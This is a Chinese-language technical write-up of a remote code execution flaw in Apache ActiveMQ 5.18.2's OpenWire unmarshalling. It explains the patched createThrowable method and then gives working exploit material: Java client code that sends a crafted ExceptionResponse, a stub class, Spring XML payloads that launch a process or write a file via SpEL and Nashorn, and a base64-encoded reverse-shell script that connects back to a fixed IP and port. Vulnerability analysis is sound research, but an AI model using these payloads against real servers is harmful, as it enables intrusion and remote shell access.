

分析版本 5.18.2
补丁分析
查看补丁内容，在 BaseDataStreamMarshaller#createThrowable 方法中，可以调用指定类的参数类型为 String 的构造方法。

该方法在 v5.18.2 版本中的实现如下
private Throwable createThrowable(String className, String message) {
try {
Class clazz = Class.forName(className, false, BaseDataStreamMarshaller.class.getClassLoader());
Constructor constructor = clazz.getConstructor(new Class[] {String.class});
return (Throwable)constructor.newInstance(new Object[] {message});
} catch (Throwable e) {
return new Throwable(className + ": " + message);
}
}从补丁的注释描述，和类名称可以看出 BaseDataStreamMarshaller 与 OpenWire 协议有关，它应该是用于对传输的数据进行 Marshller/UnMarshaller 操作的
向上追溯在当前类的两个方法中 [1] 和 [2] 都能看到对 createThrowable 的调用
protected Throwable tightUnmarsalThrowable(OpenWireFormat wireFormat, DataInput dataIn, BooleanStream bs)
throws IOException {
if (bs.readBoolean()) {
String clazz = tightUnmarshalString(dataIn, bs);
String message = tightUnmarshalString(dataIn, bs);
Throwable o = createThrowable(clazz, message); // [1]
// ...
}
protected Throwable looseUnmarsalThrowable(OpenWireFormat wireFormat, DataInput dataIn)
throws IOException {
if (dataIn.readBoolean()) {
String clazz = looseUnmarshalString(dataIn);
String message = looseUnmarshalString(dataIn);
Throwable o = createThrowable(clazz, message); // [2]
// ...
}方法名中的
tight和loose对应OpenWire中可用的编码格式。
那么只要可以控制传入的 clazz 和 message 的内容，就可调用指定类的参数类型为 String 的构造方法，从而进行利用。
漏洞利用
BaseDataStreamMarshaller 只是抽象类，利用的话需要找到它具体的实现类，从补丁的描述看，这不难。
相关的子类为 ExceptionResponseMarshaller，当然你可以找寻其它能够调用至 tightUnmarsalThrowable 或 looseUnmarsalThrowable 的非抽象子类，例如 ConnectionErrorMarshaller。ExceptionResponseMarshaller#tightUnmarshal 方法如下，可在 [3] 看到对父类方法的调用
public void tightUnmarshal(OpenWireFormat wireFormat, Object o, DataInput dataIn, BooleanStream bs) throws IOException {
super.tightUnmarshal(wireFormat, o, dataIn, bs);
ExceptionResponse info = (ExceptionResponse)o;
info.setException((java.lang.Throwable) tightUnmarsalThrowable(wireFormat, dataIn, bs)); // [3]
}现在的问题是，无论是 ConnectionError 还是 ExceptionResponse 类型的消息，通常都是由服务端，返回给客户端的。
如果想攻击服务端的话，怎么尽量简单的构造所需的请求数据呢？
通过查看源码，发现 ActiveMQSession#syncSendPacket 可用于发送 Command『ConnectionError 和 ExceptionResponse，都是 Command 的实现类』，那么可以通过如下代码发送 ExceptionResponse 类型的消息
public class Main {
public static void main(String[] args) throws Exception {
ConnectionFactory connectionFactory = new
ActiveMQConnectionFactory("tcp://localhost:61616");
Connection connection = connectionFactory.createConnection("admin", "admin");
connection.start();
ActiveMQSession session = (ActiveMQSession) connection.createSession();
ExceptionResponse exceptionResponse = new ExceptionResponse();
exceptionResponse.setException(new RuntimeException(xxxx));
session.syncSendPacket(exceptionResponse);
connection.close();
}
}但是 RuntimeException 的构造方法并无危害，为此需要找一个利用类，常见的就是 ClassPathXmlApplicationContext 远程加载 XML，或是 FileSystemXmlApplicationContext，刚好 activemq 的环境中有这个类。
ExceptionResponse exceptionResponse = new ExceptionResponse();
exceptionResponse.setException(new ClassPathXmlApplicationContext("http://127.0.0.1:8000/1.xml"));需要注意的时，Spring 中的 ClassPathXmlApplicationContext 没有继承 Throwable 类，所以需要在本地新建一个 ClassPathXmlApplicationContext 类，确保在使用内置接口发送时不会报错
package org.springframework.context.support;
public class ClassPathXmlApplicationContext extends Throwable{
private String message;
public ClassPathXmlApplicationContext(String message) {
this.message = message;
}
@Override
public String getMessage() {
return message;
}
}使用的 XML 文档如下
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="
http://www.springframework.org/schema/beans
http://www.springframework.org/schema/beans/spring-beans.xsd">
<bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
<constructor-arg >
<list>
<value>open</value>
<value>-a</value>
<value>calculator</value>
</list>
</constructor-arg>
</bean>
</beans>已公开的利用
上述利用方式使用了 ActiveMQ 的接口，其它形式的利用工具可参考 (Metasploit、 Nuclei、 XDB-90299d8578e8 等)
FileSystemXmlApplicationContext
除了 ClassPathXmlApplicationContext 外，还有另一个具有相似功能的类 FileSystemXmlApplicationContext。它支持直接使用 SpEL 表达式定义属性造成任意代码执行，下面是一个在 /tmp/poc 写入 Hello Trganda 的例子。
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
<bean id="vulncheck" class="java.lang.String">
<property name="vc" value="#{''.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('Nashorn').eval('var fw = new java.io.FileWriter("/tmp/poc"); fw.write("Hello Trganda"); fw.close();')}"/>
</bean>
</beans>如何进行反弹 Shell呢，下面的 XML 文件使用 go-exploit 生成的 shell，payload.ReverseShellJJSScript 来自 go-exploit 项目。
xml := fmt.Sprintf(`<beans
xmlns="http://www.springframework.org/schema/beans"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="
http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
<bean id="vulncheck" class="java.lang.String">
<property name="file" value="#{''.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('Nashorn').eval('eval(new java.lang.String(java.util.Base64.decoder.decode("%s")));')}"/>
</bean>
</beans>`, b64.StdEncoding.EncodeToString([]byte(payload.ReverseShellJJSScript(conf.Lhost, conf.Lport, conf.C2Type == c2.SSLShellServer))))<beans
xmlns="http://www.springframework.org/schema/beans"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="
http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
<bean id="vulncheck" class="java.lang.String">
<property name="file" value="#{''.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('Nashorn').eval('eval(new java.lang.String(java.util.Base64.decoder.decode("dmFyIHNoZWxsID0gImJhc2giOwppZiAoamF2YS5sYW5nLlN5c3RlbS5nZXRQcm9wZXJ0eSgib3MubmFtZSIpLmluZGV4T2YoIldpbmRvd3MiKSAhPSAtMSkgewoJc2hlbGwgPSAiY21kLmV4ZSI7Cn0KdmFyIHA9bmV3IGphdmEubGFuZy5Qcm9jZXNzQnVpbGRlcihzaGVsbCkucmVkaXJlY3RFcnJvclN0cmVhbSh0cnVlKS5zdGFydCgpO3ZhciBzPW5ldyBqYXZhLm5ldC5Tb2NrZXQoIjEwLjkuNDkuMTE2IiwgMTI3MCk7CnZhciBzb2NrZXRJbnB1dCA9IG5ldyBqYXZhLmlvLkJ1ZmZlcmVkUmVhZGVyKG5ldyBqYXZhLmlvLklucHV0U3RyZWFtUmVhZGVyKHMuZ2V0SW5wdXRTdHJlYW0oKSkpOwp2YXIgc29ja2V0T3V0cHV0ID0gbmV3IGphdmEuaW8uQnVmZmVyZWRXcml0ZXIobmV3IGphdmEuaW8uT3V0cHV0U3RyZWFtV3JpdGVyKHMuZ2V0T3V0cHV0U3RyZWFtKCkpKTsKdmFyIHByb2Nlc3NJbnB1dCA9IG5ldyBqYXZhLmlvLkJ1ZmZlcmVkV3JpdGVyKG5ldyBqYXZhLmlvLk91dHB1dFN0cmVhbVdyaXRlcihwLmdldE91dHB1dFN0cmVhbSgpKSk7CnZhciBwcm9jZXNzT3V0cHV0ID0gbmV3IGphdmEuaW8uQnVmZmVyZWRSZWFkZXIobmV3IGphdmEuaW8uSW5wdXRTdHJlYW1SZWFkZXIocC5nZXRJbnB1dFN0cmVhbSgpKSk7Cgp3aGlsZSAoIXMuaXNDbG9zZWQoKSkgewoJdmFyIGRhdGEKCWlmICgoZGF0YSA9IHNvY2tldElucHV0LnJlYWRMaW5lKCkpICE9IG51bGwpIHsKCQlwcm9jZXNzSW5wdXQud3JpdGUoZGF0YSArICJcbiIpOwoJCXByb2Nlc3NJbnB1dC5mbHVzaCgpCgl9CglqYXZhLmxhbmcuVGhyZWFkLnNsZWVwKDUwKTsKCgl3aGlsZSAocHJvY2Vzc091dHB1dC5yZWFkeSgpICYmIChkYXRhID0gcHJvY2Vzc091dHB1dC5yZWFkKCkpID4gMCkgewoJCQlzb2NrZXRPdXRwdXQud3JpdGUoZGF0YSk7Cgl9Cglzb2NrZXRPdXRwdXQuZmx1c2goKQoJdHJ5IHsKCQlwLmV4aXRWYWx1ZSgpOwoJCWJyZWFrOwoJfSBjYXRjaCAoZSkgewoJfQp9CgpwLmRlc3Ryb3koKTsKcy5jbG9zZSgpOw==")));')}"/>
</bean>
</beans>